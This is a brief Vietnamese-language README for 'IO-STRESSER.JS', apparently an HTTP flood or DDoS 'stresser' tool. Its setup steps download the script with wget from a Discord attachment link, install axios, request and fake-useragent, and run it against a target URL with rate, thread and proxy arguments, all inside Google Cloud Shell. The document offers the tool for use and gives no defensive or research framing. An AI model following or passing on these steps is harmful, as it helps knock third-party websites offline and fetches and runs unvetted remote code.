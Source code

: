 # IO-STRESSER.JS

### Mỗi trường thực hiện
[Google Shell](https://shell.cloud.google.com/)

### Cài đặt
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
apt install npm -y
npm install axios
npm install request
npm install fake-useragent
node io-stresser.js
```
### Cách sử dụng
```
node io-stresser.js <URL> 10000 5 proxy
```
